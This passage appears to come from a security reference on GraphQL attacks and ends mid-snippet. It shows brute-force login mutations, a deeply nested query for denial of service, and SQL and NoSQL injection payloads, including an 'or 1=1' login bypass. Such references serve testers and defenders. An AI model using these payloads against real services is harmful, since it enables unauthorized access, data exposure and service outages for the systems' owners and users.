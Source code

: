 ```javascript
mutation { login(input: { user:"a", password:"password" }) { success } }
mutation { login(input: { user:"b", password:"password" }) { success } }
....
mutation { login(input: { user:"z", password:"password" }) { success } }
```

## Denial of service

By default GraphQL does not restrict length of queries. The GraphQL queries can be nested one inside the other and create cascading requests to the database. As a result, nested queries can be performed in order to cause a denial of service attack:

```javascript
query {
  posts {
    title
    comments {
      comment
      user {
        comments {
          user {
            comments {
              comment
              user {
                comments {
                  comment
                  user {
                    comments {
                      comment
                      user {
                      ...
                      }
                    }
                  }
                }
              }
            }
          }
        }
      }
    }
  }
}
```

## GraphQL injection

Even though GraphQL is strongly typed, SQL and NoSQL injections are still possible since GraphQL is just a layer between the client and the database.

```javascript
mutation { 
    login(input: {
        user: "admin", 
        password: "password' or 1=1 -- -"
    }) { 
        success
    } 
}

mutation {
    users(search: "{password: { $regex: \".*\"}, name:Admin }") {
        id
        name
```